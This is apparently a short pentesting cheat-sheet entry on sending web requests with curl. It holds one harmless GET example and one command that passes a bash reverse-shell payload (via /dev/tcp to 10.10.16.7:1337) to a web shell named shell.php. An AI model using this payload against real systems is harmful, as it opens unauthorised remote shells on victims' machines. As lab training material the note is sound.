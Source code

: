 # Handling Web Requests

## Handling Web Requests

### curl GET request

An example of a GET request  with curl is the following:

```bash
curl -X GET http://target
```

To send arguments or values via a GET request we can use the `--data-urlencode` parameter:

```bash
curl 'http://10.10.10.101/shell.php' --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.7/1337 0>&1'"
```

